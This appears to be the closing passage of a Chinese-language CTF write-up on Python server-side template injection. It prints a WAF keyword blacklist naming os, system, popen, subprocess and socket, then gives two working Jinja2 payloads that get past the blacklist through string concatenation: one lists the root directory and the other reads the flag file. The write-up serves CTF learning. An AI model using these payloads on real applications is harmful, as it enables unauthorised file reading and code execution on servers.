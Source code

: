而关于 waf 的源码如下（这就是被过滤掉的关键词，md 虾仁猪心）

```
def waf(str):
      black_list = [&#34;flag&#34;,&#34;os&#34;,&#34;system&#34;,&#34;popen&#34;,&#34;import&#34;,&#34;eval&#34;,&#34;chr&#34;,&#34;request&#34;, &#34;subprocess&#34;,&#34;commands&#34;,&#34;socket&#34;,&#34;hex&#34;,&#34;base64&#34;,&#34;*&#34;,&#34;?&#34;]
  for x in black_list :
      if x in str.lower() :
      return 1
```

显然它这个过滤是不严谨的哈，直接拼接不就行了嘛，咱们写个 payload 先读一下根目录有什么东西

```
{{[].__class__.__bases__[0].__subclasses__()[102].__init__.__globals__.__builtins__['__imp'+'ort__']('o'+'s').listdir('/')}}
```

![](屏幕截图-2023-09-12-190720-1024x436.png)

这个读到了一个叫做 this_is_the_flag.txt 的的文件，然后直接构造 payload 去读这个文件

```
{{[].__class__.__bases__[0].__subclasses__()[102].__init__.__globals__.__builtins__['open']('/this_is_the_fl'+'ag.txt').read()}}
```

![](屏幕截图-2023-09-12-193019-1024x388.png)

7.最后唠叨一句，可能 python 基础不太好的小白直接看这篇文章还是有很大的疑惑，真的可以先去看一下我的另一篇文章---关于 SSTI 模板注入的那点事，那篇我将会详细讲解原理以及 SSTI 用到的 payload

Finish!!!